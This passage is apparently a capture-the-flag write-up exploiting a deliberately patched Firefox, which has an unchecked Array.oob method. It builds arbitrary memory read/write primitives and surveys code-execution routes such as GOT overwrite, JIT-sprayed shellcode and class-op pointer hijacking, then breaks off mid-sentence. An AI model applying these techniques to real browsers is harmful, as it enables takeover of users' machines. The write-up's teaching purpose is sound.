

# Outfoxed

**Authors:** [Nspace](https://twitter.com/_MatteoRizzo)

**Tags:** pwn, browser

**Points:** 498

> Just your average, easy browser pwn!
> 
> https://outfoxed.be.ax
>
> [outfoxed.tar.xz](https://corctf2021-files.storage.googleapis.com/uploads/0df560b1a48641ae98116462c1a3d8ebd6605bcf236c4da5beba29f37da94961/outfoxed.tar.xz)

## Analysis

In this challenge the authors visit a webpage of our choosing using a buggy
Firefox. Our job is to exploit the Firefox bug and use it to read the flag which
is stored on the challenge server.

Let's start by checking out the attachments:

```
$ tree outfoxed
outfoxed
├── app
│   ├── flag.txt
│   ├── fox.py
│   └── reader
├── code
│   ├── log
│   ├── mozconfig
│   ├── patch
│   └── README.md
├── docker-compose.yml
└── Dockerfile
```

The challenge runs in a container built from the following Dockerfile:

```dockerfile
FROM python:slim
RUN apt-get update \
	&& apt-get install -y socat curl gzip \
	&& apt-get install -y --no-install-recommends \
	libglib2.0-0 libnss3 libatk1.0-0 libatk-bridge2.0-0 libcups2 libdrm2 \
	libxkbcommon0 libxcomposite1 libxdamage1 libxrandr2 libgbm1 libgtk-3-0 \
	libasound2 libxshmfence1 libx11-xcb1 libdbus-glib-1-2 libxtst6 libxt6 && rm -rf /var/lib/apt/lists/*

COPY app/flag.txt /flag.txt
COPY app/reader /reader
RUN chmod 0640 /flag.txt && chmod 6755 /reader

RUN useradd -ms /bin/bash ctf

WORKDIR /app
RUN curl -fsS https://files.be.ax/outfoxed-7d11ebc85cf45e851977eda017da26ad71b225ecf28e3f2973fc1cbd09dd3286/outfoxed.tar.gz | tar x
COPY app/fox.py /app/flag.py

USER ctf
CMD  ["socat", "tcp-l:1337,reuseaddr,fork", "EXEC:/app/flag.py"]
```

**OBJECTIVE**: read `flag.txt`.

Firefox runs as the user `ctf`, but only root can read the flag. The only way to
get it is to execute the `reader` program which prints the flag and is setuid
root. This setup means that reading arbitrary files is not enough, and instead
we need to get code execution in the container.

**NEW OBJECTIVE**: execute `/reader` and read its output.

`fox.py` reads a webpage from us and opens it in Firefox:

```py
#!/usr/bin/env python3

import os
import sys
import tempfile

print("Enter exploit followed by EOF: ")
sys.stdout.flush()

buf = ""
while "EOF" not in buf:
    buf += input() + "\n"

with tempfile.TemporaryDirectory() as dir:
    os.chdir(dir)
    with open("exploit.html", 'w') as f:
        f.write("<script src='exploit.js'></script>")
    with open("exploit.js", 'w') as f:
        f.write(buf[:-3])
    os.environ["MOZ_DISABLE_CONTENT_SANDBOX"] = "1"
    os.system(f"timeout 20s /app/firefox/firefox --headless exploit.html")
```

The script sets the `MOZ_DISABLE_CONTENT_SANDBOX` environment variable which
disables Firefox's sandbox. Modern web browsers employ
a multi-process architecture to defend against vulnerabilities: the _browser process_
is privileged and has access to everything, whereas the _renderer processes_ are
heavily sandboxed and can do almost nothing without going through the browser
process. The code that is most vulnerable to attacks (e.g., because it handles
untrusted data) runs in the renderer process so that even if an attacker manages
to exploit it, they still cannot take over the machine. If you're interested in 
learning more, LiveOverflow has a [video](https://www.youtube.com/watch?v=StQ_6juJlZY)
that talks about browser sandboxing. Here the sandbox is
disabled, so a compromised renderer process is free to read/write files and execute other
programs. This means that taking over the renderer process is enough to solve
the challenge, as we can then execute `/reader` and get the flag.

**NEW OBJECTIVE**: compromise Firefox's renderer process.

### Patch

Browser challenges don't usually ask the players to exploit a real-world bug
(although there are
[exceptions](https://abiondo.me/2019/01/02/exploiting-math-expm1-v8/) of course).
Instead, the author typically introduces their own bug into the browser, and
players have to exploit that. This challenge is no different, and it includes
the author's Firefox patch. Let's have a look at that:

```diff
diff --git a/js/src/builtin/Array.cpp b/js/src/builtin/Array.cpp
--- a/js/src/builtin/Array.cpp
+++ b/js/src/builtin/Array.cpp
@@ -428,6 +428,29 @@ static inline bool GetArrayElement(JSCon
   return GetProperty(cx, obj, obj, id, vp);
 }
 
+static inline bool GetTotallySafeArrayElement(JSContext* cx, HandleObject obj,
+                                   uint64_t index, MutableHandleValue vp) {
+  if (obj->is<NativeObject>()) {
+    NativeObject* nobj = &obj->as<NativeObject>();
+    vp.set(nobj->getDenseElement(size_t(index)));
+    if (!vp.isMagic(JS_ELEMENTS_HOLE)) {
+      return true;
+    }
+
+    if (nobj->is<ArgumentsObject>() && index <= UINT32_MAX) {
+      if (nobj->as<ArgumentsObject>().maybeGetElement(uint32_t(index), vp)) {
+        return true;
+      }
+    }
+  }
+
+  RootedId id(cx);
+  if (!ToId(cx, index, &id)) {
+    return false;
+  }
+  return GetProperty(cx, obj, obj, id, vp);
+}
+
 static inline bool DefineArrayElement(JSContext* cx, HandleObject obj,
                                       uint64_t index, HandleValue value) {
   RootedId id(cx);
@@ -2624,6 +2647,7 @@ enum class ArrayAccess { Read, Write };
 template <ArrayAccess Access>
 static bool CanOptimizeForDenseStorage(HandleObject arr, uint64_t endIndex) {
   /* If the desired properties overflow dense storage, we can't optimize. */
+
   if (endIndex > UINT32_MAX) {
     return false;
   }
@@ -3342,6 +3366,34 @@ static bool ArraySliceOrdinary(JSContext
   return true;
 }
 
+
+bool js::array_oob(JSContext* cx, unsigned argc, Value* vp) {
+  CallArgs args = CallArgsFromVp(argc, vp);
+  RootedObject obj(cx, ToObject(cx, args.thisv()));
+  double index;
+  if (args.length() == 1) {
+    if (!ToInteger(cx, args[0], &index)) {
+      return false;
+    }
+    GetTotallySafeArrayElement(cx, obj, index, args.rval());
+  } else if (args.length() == 2) {
+    if (!ToInteger(cx, args[0], &index)) {
+      return false;
+    }
+    NativeObject* nobj =
+        obj->is<NativeObject>() ? &obj->as<NativeObject>() : nullptr;
+    if (nobj) {
+      nobj->setDenseElement(index, args[1]);
+    } else {
+      puts("Not dense");
+    }
+    GetTotallySafeArrayElement(cx, obj, index, args.rval());
+  } else {
+    return false;
+  }
+  return true;
+}
+
 /* ES 2016 draft Mar 25, 2016 22.1.3.23. */
 bool js::array_slice(JSContext* cx, unsigned argc, Value* vp) {
   AutoGeckoProfilerEntry pseudoFrame(
@@ -3569,6 +3621,7 @@ static const JSJitInfo array_splice_info
 };
 
 static const JSFunctionSpec array_methods[] = {
+    JS_FN("oob", array_oob, 2, 0),
     JS_FN(js_toSource_str, array_toSource, 0, 0),
     JS_SELF_HOSTED_FN(js_toString_str, "ArrayToString", 0, 0),
     JS_FN(js_toLocaleString_str, array_toLocaleString, 0, 0),
diff --git a/js/src/builtin/Array.h b/js/src/builtin/Array.h
--- a/js/src/builtin/Array.h
+++ b/js/src/builtin/Array.h
@@ -113,6 +113,8 @@ extern bool array_shift(JSContext* cx, u
 
 extern bool array_slice(JSContext* cx, unsigned argc, js::Value* vp);
 
+extern bool array_oob(JSContext* cx, unsigned argc, Value* vp);
+
 extern JSObject* ArraySliceDense(JSContext* cx, HandleObject obj, int32_t begin,
                                  int32_t end, HandleObject result);

```

The patch looks a bit complicated, but in reality it only adds a new `oob`
method to JavaScript arrays. `Array.prototype.oob` lets us read and write an
element of the array. For example:

```js
let a = [1, 2];

// Read an element of the array
console.log(a.oob(0));
// prints 1

// Write an element of the array
a.oob(1, 1234);
console.log(a);
// prints 1, 1234
```

The catch is that `oob` doesn't perform any bounds checking, so it lets us read
and write out of bounds:

```js
console.log(a.oob(1000));
// prints 5e-324
```

Bugs like this are generally pretty straightforward to turn into code execution.
So with that in mind, let's get started!

## Setup

Debugging a browser is usually a bit complicated because of the multi-process
setup. Fortunately, it's usually possible to build a JavaScript shell that only
includes the JavaScript runtime and that we can debug easily with GDB. Firefox
is no exception here. I built Firefox's JavaScript shell by following
[Mozilla's documentation](https://firefox-source-docs.mozilla.org/js/build.html).
Make sure to use the same version as the author (`655554:f4922b9e9a6b`) and to
apply the patch before compiling. While building in debug mode is generally
a good idea when debugging, accessing arrays out of bounds with `oob` causes
an assertion failure which crashes the shell so I used a release build to
develop the exploit. We can debug the resulting `js` binary easily in GDB.

I will be using [pwndbg](https://github.com/pwndbg/pwndbg), a GDB plugin that
adds a lot of nice features, throughout the writeup.

```
pwndbg: loaded 195 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from dist/bin/js...
pwndbg> b js::math_atan2
Breakpoint 1 at 0x134b162: file /home/matteo/Documents/gecko-dev/js/src/jsmath.cpp, line 162.
pwndbg> r
js> Math.atan2(2)

Thread 1 "js" hit Breakpoint 1, js::math_atan2 (cx=cx@entry=0x7ffff6518000, argc=1, vp=0x7ffff5343098) at js/src/jsmath.cpp:162
162	  CallArgs args = CallArgsFromVp(argc, vp);
ERROR: Could not find ELF base!
ERROR: Could not find ELF base!
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────────────────────────────────────────────────
 RAX  0x1
 RBX  0x7ffff53c1800 —▸ 0x7ffff6563080 —▸ 0x7ffff53ac000 —▸ 0x7ffff653b000 —▸ 0x7ffff5343000 ◂— ...
 RCX  0x4be574f94dddc200
 RDX  0x7ffff5343098 ◂— 0xfffe3eb45a763158
 RDI  0x7ffff6518000 ◂— 0x0
 RSI  0x1
 R8   0x1a
 R9   0x7fffffffc648 —▸ 0x3eb45a761360 ◂— 0x500000258
 R10  0x7ffff52c6c00 ◂— 0x0
 R11  0x7fffffffc598 —▸ 0x7fffffffc638 ◂— 0x0
 R12  0x55555689f140 ◂— push   rbp
 R13  0x7fffffffc750 —▸ 0x7ffff53430a8 ◂— 0xfff8800000000002
 R14  0x7ffff6518000 ◂— 0x0
 R15  0x7ffff5343098 ◂— 0xfffe3eb45a763158
 RBP  0x7fffffffc5e0 —▸ 0x7fffffffc680 —▸ 0x7fffffffca60 —▸ 0x7fffffffcab0 —▸ 0x7fffffffcb20 ◂— ...
 RSP  0x7fffffffc5b0 —▸ 0x3eb45a73d030 —▸ 0x3eb45a7644a0 —▸ 0x3eb45a73b0b8 —▸ 0x55555764cf20 (global_class) ◂— ...
 RIP  0x55555689f162 ◂— mov    rcx, qword ptr [rdx + 8]
──────────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────────
 ► 0x55555689f162    mov    rcx, qword ptr [rdx + 8]
   0x55555689f166    mov    rdx, rcx
   0x55555689f169    shr    rdx, 0x2f
   0x55555689f16d    cmp    edx, 0x1fff5
   0x55555689f173    jne    0x55555689f17e                <0x55555689f17e>
    ↓
   0x55555689f17e    test   eax, eax
   0x55555689f180    je     0x55555689f197                <0x55555689f197>
 
   0x55555689f182    lea    rsi, [r15 + 0x10]
   0x55555689f186    cmp    eax, 1
   0x55555689f189    jne    0x55555689f1a6                <0x55555689f1a6>
 
   0x55555689f18b    lea    rax, [rip + 0xdc61de]         <0x555557665370>
──────────────────────────────────────────────────────────────────────────────────[ SOURCE (CODE) ]───────────────────────────────────────────────────────────────────────────────────
In file: js/src/jsmath.cpp
   157   res.setDouble(z);
   158   return true;
   159 }
   160 
   161 bool js::math_atan2(JSContext* cx, unsigned argc, Value* vp) {
 ► 162   CallArgs args = CallArgsFromVp(argc, vp);
   163 
   164   return math_atan2_handle(cx, args.get(0), args.get(1), args.rval());
   165 }
   166 
   167 double js::math_ceil_impl(double x) {
──────────────────────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffc5b0 —▸ 0x3eb45a73d030 —▸ 0x3eb45a7644a0 —▸ 0x3eb45a73b0b8 —▸ 0x55555764cf20 (global_class) ◂— ...
01:0008│     0x7fffffffc5b8 —▸ 0x7ffff6518060 —▸ 0x7fffffffc7a8 ◂— 0x7ffff6518060
02:0010│     0x7fffffffc5c0 ◂— 0x4be574f94dddc200
03:0018│     0x7fffffffc5c8 —▸ 0x7ffff53c1800 —▸ 0x7ffff6563080 —▸ 0x7ffff53ac000 —▸ 0x7ffff653b000 ◂— ...
04:0020│     0x7fffffffc5d0 —▸ 0x7ffff6518000 ◂— 0x0
05:0028│     0x7fffffffc5d8 —▸ 0x7fffffffc618 —▸ 0x7ffff6518000 ◂— 0x0
06:0030│ rbp 0x7fffffffc5e0 —▸ 0x7fffffffc680 —▸ 0x7fffffffca60 —▸ 0x7fffffffcab0 —▸ 0x7fffffffcb20 ◂— ...
07:0038│     0x7fffffffc5e8 —▸ 0x5555568b2252 ◂— mov    r15d, eax
────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────────────────────────
 ► f 0   0x55555689f162
   f 1   0x5555568b2252
   f 2   0x5555568b2252
   f 3   0x5555568ac3ff
   f 4   0x5555568ac3ff
   f 5   0x5555568ac3ff
   f 6   0x5555568a40a8
   f 7   0x5555568b388e
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```

## SpiderMonkey Internals

While I have solved numerous browser challenges based on Chromium, I had never
looked at SpiderMonkey (Firefox's JavaScript engine) before. However JavaScript
engines all work in a similar way and my experience with V8 (Chromium's
JavaScript engine) was really helpful in quickly making sense of SpiderMonkey's
internals. I also relied heavily on
[this blog post by 0vercl0k](https://doar-e.github.io/blog/2018/11/19/introduction-to-spidermonkey-exploitation/)
to understand SpiderMonkey and get ideas on how to proceed in my exploit.
I encourage you to go and read it
if you're not already familiar with this engine, but I'll summarize the more
important parts here. As far as I can tell some of the data structures have
changed since that blog post was written, so the information in there is not
entirely up to date. The important parts have stayed the same though.

### JS Arrays

`Array.prototype.oob` lets us read and write out of bounds of a JavaScript array,
so it's important that we first understand how SpiderMonkey stores JavaScript arrays in memory.
A JavaScript array is stored as a [js::NativeObject](https://searchfox.org/mozilla-central/rev/4cca5d2f257c6f1bcef50a0debcbd66524add703/js/src/vm/NativeObject.h#525). We can
print its memory layout using GDB:

```
pwndbg> ptype /o js::NativeObject
/* offset    |  size */  type = class js::NativeObject : public JSObject {
                         protected:
/*    8      |     8 */    js::HeapSlot *slots_;
/*   16      |     8 */    js::HeapSlot *elements_;
                           /* total size (bytes):   24 */
                        }
```

The first 8 bytes contain a pointer to a `js::Shape`, which essentially describes
the memory layout of the object and is used, among other things, by the GC when
it needs to figure out what memory to collect. `slots_` and `elements_` point
to the memory that contains the array's properties, and elements respectively.
We can see this when printing the contents of memory in GDB.

```
js> let a = [1, 2, 3, 4]

pwndbg> tele 0x0e704873d0e0
00:0000│  0xe704873d0e0 —▸ 0xe7048760e20 —▸ 0xe704873b208 —▸ 0x555557650e10 (js::ArrayObject::class_) —▸ 0x55555574c0be ◂— ...
01:0008│  0xe704873d0e8 —▸ 0x5555557672a8 (emptyObjectSlotsHeaders+8) ◂— 0x100000000
02:0010│  0xe704873d0f0 —▸ 0xe704873d108 ◂— 0xfff8800000000001
03:0018│  0xe704873d0f8 ◂— 0x400000000
04:0020│  0xe704873d100 ◂— 0x400000006
05:0028│  0xe704873d108 ◂— 0xfff8800000000001
06:0030│  0xe704873d110 ◂— 0xfff8800000000002
07:0038│  0xe704873d118 ◂— 0xfff8800000000003
08:0040│  0xe704873d120 ◂— 0xfff8800000000004
09:0048│  0xe704873d128 ◂— 0x0
... ↓
```

As we can see, `elements_` points to `0xe704873d108`, which contains the 4
elements of our array. Since a JavaScript array can contain any type of object,
and not just integers, the engine uses _NaN tagging_ to distinguish between
different types. Floats are stored as-is, and other types such as integers and
pointers contain a tag in the upper 17 bits that identifies their type. This is
called _NaN tagging_ because these tagged values correspond to special Not-a-Number
values when interpreted as a floating point number. Here, 0xfff88 is the tag for
integers, and we can indeed see that our 4 array elements are tagged in this way.

We can verify this by printing the contents of an array that contains other types
of objects:
```
js> let a = [1, 2, 13.37, []]

pwndbg> tele 0x10d983000698
00:0000│  0x10d983000698 —▸ 0x12997c760e20 —▸ 0x12997c73b208 —▸ 0x555557650e10 (js::ArrayObject::class_) —▸ 0x55555574c0be ◂— ...
01:0008│  0x10d9830006a0 —▸ 0x5555557672a8 (emptyObjectSlotsHeaders+8) ◂— 0x100000000
02:0010│  0x10d9830006a8 —▸ 0x10d9830006c0 ◂— 0xfff8800000000001
03:0018│  0x10d9830006b0 ◂— 0x400000000
04:0020│  0x10d9830006b8 ◂— 0x400000006
05:0028│  0x10d9830006c0 ◂— 0xfff8800000000001
06:0030│  0x10d9830006c8 ◂— 0xfff8800000000002
07:0038│  0x10d9830006d0 ◂— 0x402abd70a3d70a3d
08:0040│  0x10d9830006d8 ◂— 0xfffe10d9830006f8
09:0048│  0x10d9830006e0 ◂— 0x0
0a:0050│  0x10d9830006e8 ◂— 0x0

pwndbg> p *(double*)0x10d9830006d0
$2 = 13.369999999999999
```

As we expected, 1 and 2 are tagged with 0xfff88, the float is stored untagged,
and the pointer to the array is tagged with 0xfffe. The other two qwords between
`elements_` and the elements storage is a `js::ObjectElements` object that
describes the length and capacity of the array:

```
pwndbg> ptype /o js::ObjectElements
/* offset    |  size */  type = class js::ObjectElements {
                         private:
/*    0      |     4 */    uint32_t flags;
/*    4      |     4 */    uint32_t initializedLength;
/*    8      |     4 */    uint32_t capacity;
/*   12      |     4 */    uint32_t length;
                           /* total size (bytes):   16 */
                         }

pwndbg> p *(js::ObjectElements*)0x10d9830006b0
$3 = {
  flags = 0,
  initializedLength = 4,
  capacity = 6,
  length = 4,
}
```

A typical technique used in exploiting JavaScript engines is to overwrite the
elements pointer of an array, then read or write to the array to gain arbitrary
memory read and write. While this works, it would be annoying to do so in our
exploit because we would need to tag/untag values all the time and we wouldn't
be able to write values that don't correspond to a valid float or tagged value.
Fortunately the JavaScript spec gives us another data structure that is much
more convenient for this.

### JS TypedArrays

In contrast to regular JavaScript arrays, a TypedArray can only contain integers
of a fixed size. For example a Uint32Array can only contain unsigned 32-bit integers.
The elements of a TypedArray are always stored untagged, just like in a C array.
This avoids the problems I described in the previous section and makes TypedArrays
a popular corruption target in JavaScript engine exploits. SpiderMonkey represents
TypedArrays as a [js::ArrayBufferViewObject](https://searchfox.org/mozilla-central/rev/4cca5d2f257c6f1bcef50a0debcbd66524add703/js/src/vm/ArrayBufferViewObject.h#25):

```cpp
class ArrayBufferViewObject : public NativeObject {
 public:
  // Underlying (Shared)ArrayBufferObject.
  static constexpr size_t BUFFER_SLOT = 0;

  // Slot containing length of the view in number of typed elements.
  static constexpr size_t LENGTH_SLOT = 1;

  // Offset of view within underlying (Shared)ArrayBufferObject.
  static constexpr size_t BYTEOFFSET_SLOT = 2;

  // Pointer to raw buffer memory.
  static constexpr size_t DATA_SLOT = 3;

  // ...
}
```

```
js> let a = new Uint32Array([1, 2, 3, 4])

pwndbg> tele 0x07e2a5200698
00:0000│  0x7e2a5200698 —▸ 0x31e83964940 —▸ 0x31e8393b2b0 —▸ 0x555557664870 (js::TypedArrayObject::classes+240) —▸ 0x555555735fd4 ◂— ...
01:0008│  0x7e2a52006a0 —▸ 0x5555557672a8 (emptyObjectSlotsHeaders+8) ◂— 0x100000000
02:0010│  0x7e2a52006a8 —▸ 0x555555767280 (emptyElementsHeader+16) ◂— 0xfff9800000000000
03:0018│  0x7e2a52006b0 ◂— 0xfffa000000000000
04:0020│  0x7e2a52006b8 ◂— 0x4
05:0028│  0x7e2a52006c0 ◂— 0x0
06:0030│  0x7e2a52006c8 —▸ 0x7e2a52006d0 ◂— 0x200000001
07:0038│  0x7e2a52006d0 ◂— 0x200000001
pwndbg> 
08:0040│  0x7e2a52006d8 ◂— 0x400000003
09:0048│  0x7e2a52006e0 ◂— 0x0
... ↓
```

An `ArrayBufferViewObject` has shape, objects, and elements pointers just like
a `NativeObject`. The memory that follows the elements pointers is the storage
for the TypedArray's _slots_, which in this case contain a pointer to an
ArrayBufferObject, the length of the TypedArray, the offset into the
ArrayBufferObject, and a pointer to the TypedArray's elements. The ArrayBuffer
and byte offset pointers aren't really relevant for this exploit so we'll ignore
them here. The data slot is what we really care about, and as you can see it
contains our (untagged) numbers:

```
pwndbg> x/4wx 0x7e2a52006d0
0x7e2a52006d0:	0x00000001	0x00000002	0x00000003	0x00000004
```

## Exploitation

Most, if not all JavaScript engine exploits follow a similar plan: gain arbitrary
read/write in the process' address space and the use that to overwrite some
executable code with shellcode or overwrite a code pointer and start a JOP/ROP
chain. We'll develop the exploit in the JavaScript shell and then make it work
in Firefox.

### Arbitrary R/W

So far the plan seems clear. We will use `Array.prototype.oob` to overwrite the
data pointer of a TypedArray and then use that to read and write to any address.

Let's start by allocating a regular array and a TypedArray. Most (all?) JavaScript
engines allocate objects in sequence, so if we allocate the array the typed
array one after the other they should be next to each other in memory.

```js
let a = new Array(1,2,3,4,5,6);
let b = new BigUint64Array(1);
```

```
pwndbg> tele 0x10a04c000698
00:0000│  0x10a04c000698 —▸ 0x3c159f560e20 —▸ 0x3c159f53b208 —▸ 0x555557650e10 (js::ArrayObject::class_) —▸ 0x55555574c0be ◂— ...
01:0008│  0x10a04c0006a0 —▸ 0x5555557672a8 (emptyObjectSlotsHeaders+8) ◂— 0x100000000
02:0010│  0x10a04c0006a8 —▸ 0x10a04c0006c0 ◂— 0xfff8800000000001
03:0018│  0x10a04c0006b0 ◂— 0x600000000
04:0020│  0x10a04c0006b8 ◂— 0x600000006
05:0028│  0x10a04c0006c0 ◂— 0xfff8800000000001
06:0030│  0x10a04c0006c8 ◂— 0xfff8800000000002
07:0038│  0x10a04c0006d0 ◂— 0xfff8800000000003
pwndbg> 
08:0040│  0x10a04c0006d8 ◂— 0xfff8800000000004
09:0048│  0x10a04c0006e0 ◂— 0xfff8800000000005
0a:0050│  0x10a04c0006e8 ◂— 0xfff8800000000006
0b:0058│  0x10a04c0006f0 —▸ 0x7ffff53ac910 —▸ 0x7ffff53ac000 —▸ 0x7ffff653b000 —▸ 0x7ffff5343000 ◂— ...
0c:0060│  0x10a04c0006f8 —▸ 0x3c159f564860 —▸ 0x3c159f53b280 —▸ 0x555557664960 (js::TypedArrayObject::classes+480) —▸ 0x55555574f29b ◂— ...
0d:0068│  0x10a04c000700 —▸ 0x5555557672a8 (emptyObjectSlotsHeaders+8) ◂— 0x100000000
0e:0070│  0x10a04c000708 —▸ 0x555555767280 (emptyElementsHeader+16) ◂— 0xfff9800000000000
0f:0078│  0x10a04c000710 ◂— 0xfffa000000000000
pwndbg> 
10:0080│  0x10a04c000718 ◂— 0x1
11:0088│  0x10a04c000720 ◂— 0x0
12:0090│  0x10a04c000728 —▸ 0x10a04c000730 ◂— 0x0
13:0098│  0x10a04c000730 ◂— 0x0
... ↓     4 skipped

pwndbg> distance 0x10a04c0006c0 0x10a04c000728
0x10a04c0006c0->0x10a04c000728 is 0x68 bytes (0xd words)
```

`b`'s data pointer is at `0x10a04c000728` and `a`'s elements are at
`0x10a04c0006c0`. This means that we can overwrite `b`'s data pointer by writing
to the 13th element with `oob`.

```js
let converter = new ArrayBuffer(8);
let u64view = new BigUint64Array(converter);
let f64view = new Float64Array(converter);

// Bit-cast an uint64_t to a float64
function i2d(x) {
    u64view[0] = x;
    return f64view[0];
}

// Bit-cast a float64 to an uint64_t
function d2i(x) {
    f64view[0] = x;
    return u64view[0];
}

let a = new Array(1,2,3,4,5,6);
let b = new BigUint64Array(1);

a.oob(13, i2d(0x41414141n))
b[0] = 0n
```

This crashes by trying to write 0 to 0x41414141, exactly like we would expect:

```
Thread 1 "js" received signal SIGSEGV, Segmentation fault.
0x000022760cf0b110 in ?? ()
────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────────────────────────────────────────────────
 RAX  0x41414141
 RBX  0x7fffffffc3c8 —▸ 0xbec6100898 —▸ 0x109615e65ac0 —▸ 0x109615e3b2b0 —▸ 0x555557664960 (js::TypedArrayObject::classes+480) ◂— ...
 RCX  0x41414141
 RDX  0xfff9800000000000
 RDI  0x41414141
 RSI  0x0
 R8   0x7fffffffc798 ◂— 0xffffffffffffffff
 R9   0x7fffffffc468 ◂— 0x0
 R10  0xffff800000000000
 R11  0x7fffffffc620 ◂— 0x0
 R12  0xfffdffffffffffff
 R13  0xbec6100898 —▸ 0x109615e65ac0 —▸ 0x109615e3b2b0 —▸ 0x555557664960 (js::TypedArrayObject::classes+480) —▸ 0x55555574f29b ◂— ...
 R14  0x7fffffffc798 ◂— 0xffffffffffffffff
 R15  0x0
 RBP  0x7fffffffc390 —▸ 0x7fffffffc400 —▸ 0x7fffffffc500 —▸ 0x7fffffffc8e0 —▸ 0x7fffffffc930 ◂— ...
 RSP  0x7fffffffc358 —▸ 0x555556b2a783 ◂— jmp    0x555556b2a8e1
 RIP  0x22760cf0b110 ◂— mov    qword ptr [rdi], rsi
──────────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────────
 ► 0x22760cf0b110    mov    qword ptr [rdi], rsi
   0x22760cf0b113    ret 
```

We'll encapsulate this in two utility functions, `read64` and `write64`:

```js
// Read 64 bits from addr
function read64(addr) {
    a.oob(13, i2d(addr))
    return b[0];
}

// Write 64 bits to addr
function write64(addr, value) {
    a.oob(13, i2d(addr));
    b[0] = value;
}
```

### Code Execution, Take 1

Before I explain how my final exploit works, I'd like to discuss a technique
which I tried to use at first and which worked in the JS shell but not in Firefox.
I'm not quite sure why it didn't work in Firefox but if you figure it out, let
me know! :)

When researching previous writeups for Firefox challenges I came across [this analysis](https://bruce30262.github.io/Learning-browser-exploitation-via-33C3-CTF-feuerfuchs-challenge/)
of Saelo's [Feuerfuchs](https://github.com/saelo/feuerfuchs) challenge from 33c3.
As it turns out, Firefox does not have full RELRO on Linux (!), so the GOT is
writable. Moreover, the implementation of `TypedArray.prototype.copyWithin(0, x)`
calls `memmove` with the address of the TypedArray's data buffer as the first
argument. In this situation, getting code execution is as simple as overwriting
the GOT entry of `memmove` with the address of `system`, putting our command
in a Uint8Array and calling `copyWithin(0, 1)` on it. Getting the address of
libc and the address of the GOT is trivial with arbitrary read/write: the
TypedArray's `slots_` and `elements_`, which we can leak with `oob`, point to
static objects. Unfortunately for us for some reason even though the GOT of
`libxul.so` (the library that contains the JS engine in Firefox) is writable,
the pointer to `memmove` is not in the GOT. It's in some other section that is
read-only, and the PLT stub for `memmove` gets the address from that section.
I spent a lot of time debugging this and trying to make it work but eventually
had to give up and search for another strategy. Such is life.

### Code Execution, Take 2

Another common technique to turn arbitrary read/write into code execution in a
JavaScript engine is to find and overwrite some executable code. On modern OSes
a memory region is normally either writable or executable, but not both at the
same time to prevent code injection attacks. However the JavaScript engines used
in modern browsers make heavy use of JIT compilation and flipping page
permissions is relatively expensive. So expensive that sometimes browser authors
would rather have memory that is both writable and executable at the same time
than pay the performance cost. This is notably the case with
[WebAssembly in Chrome](https://news.ycombinator.com/item?id=18812449), which
is a [well-known](https://abiondo.me/2019/01/02/exploiting-math-expm1-v8/#code-execution)
way to get RWX memory in the renderer process. Unfortunately, it seems that
there is no such easy bypass in Firefox. Or at least I couldn't find one by
searching the internet, let me know if I missed something :) We are going to need
yet another approach.

### Code Execution, Take 3

At this point I went back to [0vercl0k's blog post](https://doar-e.github.io/blog/2018/11/19/introduction-to-spidermonkey-exploitation/),
which has a section on how to [get the JIT compiler to generate arbitrary gadgets for you](https://doar-e.github.io/blog/2018/11/19/introduction-to-spidermonkey-exploitation/#force-the-jit-of-arbitrary-gadgets-bring-your-own-gadgets).
Sounds promising! The idea is to encode some machine instructions in JavaScript
floating-point constants, then get the JIT to compile your function. The compiled
machine code will contain our constants (aka our gadgets) as immediates and we
can execute them by jumping into the middle of the immediate. Cool! I even found
[a blog post](https://vigneshsrao.github.io/posts/writeup/#injecting-shellcode)
that includes some Linux shellcode so I don't even have to write my own ;)
This shellcode reads a pointer from `[rcx]`, changes the protection of the page
containing that address to RWX, and jumps to it.

All we have to do is find a way to jump to the JITed shellcode with rcx pointing
to a pointer to controlled data. Again,
0vercl0k's blog post is very useful here, specifically [this section](https://doar-e.github.io/blog/2018/11/19/introduction-to-spidermonkey-exploitation/#hijacking-control-flow). In short,
every JS object type (e.g. `js::ArrayObject`) in SpiderMonkey has an associated
`JSClass` which describes the type.

```
pwndbg> ptype /o JSClass
/* offset    |  size */  type = struct JSClass {
/*    0      |     8 */    const char *name;
/*    8      |     4 */    uint32_t flags;
/* XXX  4-byte hole  */
/*   16      |     8 */    const struct JSClassOps *cOps;
/*   24      |     8 */    const struct js::ClassSpec *spec;
/*   32      |     8 */    const struct js::ClassExtension *ext;
/*   40      |     8 */    const struct js::ObjectOps *oOps;

                           /* total size (bytes):   48 */
                         }
```

`JSClass::cOps` points to a table of function pointers which the engine calls
when the JavaScript code does certain operations on an object that belongs to
this class, much like a C++ vtable:

```
pwndbg> ptype /o JSClassOps
/* offset    |  size */  type = struct JSClassOps {
/*    0      |     8 */    JSAddPropertyOp addProperty;
/*    8      |     8 */    JSDeletePropertyOp delProperty;
/*   16      |     8 */    JSEnumerateOp enumerate;
/*   24      |     8 */    JSNewEnumerateOp newEnumerate;
/*   32      |     8 */    JSResolveOp resolve;
/*   40      |     8 */    JSMayResolveOp mayResolve;
/*   48      |     8 */    JSFinalizeOp finalize;
/*   56      |     8 */    JSNative call;
/*   64      |     8 */    JSHasInstanceOp hasInstance;
/*   72      |     8 */    JSNative construct;
/*   80      |     8 */    JSTraceOp trace;

                           /* total size (bytes):   88 */
                         }
pwndbg> ptype JSAddPropertyOp
type = bool (*)(struct JSContext *, JS::HandleObject, JS::HandleId, JS::HandleValue)
```

For example, `cOps->addProperty` is called whenever JS code adds a new property
